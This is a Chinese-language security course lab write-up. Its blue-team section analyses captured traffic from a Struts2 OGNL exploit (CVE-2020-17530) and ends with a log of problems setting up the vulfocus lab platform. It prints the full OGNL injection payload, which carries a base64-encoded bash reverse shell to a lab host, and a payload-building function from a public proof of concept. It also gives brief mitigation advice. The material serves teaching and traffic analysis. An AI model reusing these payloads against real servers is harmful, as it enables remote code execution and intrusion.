 ### 蓝方操作

通过参考课件中提供的“即插即用”的tcpdump容器抓包的方式对以红方身份进行漏洞利用时产生的[流量](./pcap/tcpdump.pcap)进行了抓取作为后续蓝方分析的素材

#### struts2

通过一些摸索回想起用HTTP协议直接筛选出exploit部分的流量，随后对其针对应用层的漏洞利用内容进行了记录：

```wireshark
%{(#instancemanager=#application["org.apache.tomcat.InstanceManager"]).(#stack=#attr["com.opensymphony.xwork2.util.ValueStack.ValueStack"]).(#bean=#instancemanager.newInstance("org.apache.commons.collections.BeanMap")).(#bean.setBean(#stack)).(#context=#bean.get("context")).(#bean.setBean(#context)).(#macc=#bean.get("memberAccess")).(#bean.setBean(#macc)).(#emptyset=#instancemanager.newInstance("java.util.HashSet")).(#bean.put("excludedClasses",#emptyset)).(#bean.put("excludedPackageNames",#emptyset)).(#execute=#instancemanager.newInstance("freemarker.template.utility.Execute")).(#execute.exec({"bash -c {echo,YmFzaCAtYyAnMDwmODYtO2V4ZWMgODY8Pi9kZXYvdGNwLzE5Mi4xNjguNTYuMTA3LzQ0NDQ7c2ggPCY4NiA+Jjg2IDI+Jjg2Jw==}|{base64,-d}|bash"}))}
```

同时和GitHub上对于这一漏洞的一个[POC](https://github.com/CyborgSecurity/CVE-2020-17530/tree/master)内容进行了对比，由于是基于Python配合requests包实现的请求构造，很容易就截取到了逻辑一致的利用操作，在构建payload的函数中：

```python
#很显然，command就是用户输入的命令了，相比上面Metasploit的exploit，唯一的区别大概是将 #execute.exec()中的内容取出来另拼了一段arglist，看起来更整齐一些
def build_payload(command):
   return '%{(#instancemanager=#application["org.apache.tomcat.InstanceManager"]).(#stack=#attr["com.opensymphony.xwork2.util.ValueStack.ValueStack"]).(#bean=#instancemanager.newInstance("org.apache.commons.collections.BeanMap")).(#bean.setBean(#stack)).(#context=#bean.get("context")).(#bean.setBean(#context)).(#macc=#bean.get("memberAccess")).(#bean.setBean(#macc)).(#emptyset=#instancemanager.newInstance("java.util.HashSet")).(#bean.put("excludedClasses",#emptyset)).(#bean.put("excludedPackageNames",#emptyset)).(#arglist=#instancemanager.newInstance("java.util.ArrayList")).(#arglist.add("' + command + '")).(#execute=#instancemanager.newInstance("freemarker.template.utility.Execute")).(#execute.exec(#arglist))}'
```

针对这一漏洞的缓解，最直接的办法是升级Apache Struts，直接通过漏洞修复的方式直接修补漏洞，当然也可以通过访问控制的思路来达到缓解的效果，对不可信用户禁用forced OGNL evaluation来阻止非白名单用户基于该漏洞的利用

## 问题记录

### 解决的问题

#### vulfocus平台不再支持个人搭建的平台访问场景商店

最早是rock发现了这一问题，为了确认不是个人原因，我也快速进行了vulfocus平台的搭建，发现确实应该是平台官方不再开放场景商店给个人搭建平台的感觉，考虑到服务器成本或者攻击保护等等原因也是可以接受

rock那边甚至找到了vulfocus的在线平台，发现虽然可以在官方的在线平台上打开场景商店，场景却不开放打包下载的功能，rock愤然留言要求开放场景下载，甚至还加了开发者的微信群想要讨个说法😂最后也是没什么下文

于是我这边和rock尝试了手搓这个思路，课程视频中正好对整个DMZ环境的场景有讲解，于是就试着从创建网卡开始摸索，到参照镜像选择搭建了手搓的DMZ场景出来，并且“似乎”也没有遇到太多问题，就这么继续顺着手搓的DMZ场景做下去了（[伏笔](#薛定谔的容器)）
